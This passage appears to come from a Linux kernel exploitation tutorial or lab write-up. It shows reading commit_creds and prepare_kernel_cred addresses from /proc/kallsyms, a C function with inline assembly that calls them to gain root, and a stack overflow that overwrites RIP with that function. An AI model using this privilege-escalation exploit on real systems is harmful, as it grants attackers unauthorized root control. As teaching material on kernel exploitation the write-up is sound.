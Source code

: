 {% hint style="warning" %}
For obvious reasons, you require **root** permissions to read this file!
{% endhint %}

```bash
~ # cat /proc/kallsyms | grep cred
[...]
ffffffff81066e00 T commit_creds
ffffffff81066fa0 T prepare_kernel_cred
[...]
```

Now we know the locations of the two important functions: After that, the assembly is pretty simple. First we call `prepare_kernel_cred(0)`:

```
xor    rdi, rdi
mov    rcx, 0xffffffff81066fa0
call   rcx
```

Then we call `commit_creds()` on the result (which is stored in RAX):

```
mov    rdi, rax
mov    rcx, 0xffffffff81066e00
call   rcx
```

We can throw this directly into the C code using inline assembly:

```c
void escalate() {
    __asm__(
        ".intel_syntax noprefix;"
        "xor rdi, rdi;"
        "movabs rcx, 0xffffffff81066fa0;"   // prepare_kernel_cred
	"call rcx;"
        
        "mov rdi, rax;"
	"movabs rcx, 0xffffffff81066e00;"   // commit_creds
	"call rcx;"
    );
}
```

### Overflow

The next step is overflowing. The 7th `qword` overwrites RIP:

```c
// overflow
uint64_t payload[7];

payload[6] = (uint64_t) escalate;

write(fd, payload, 0);
```
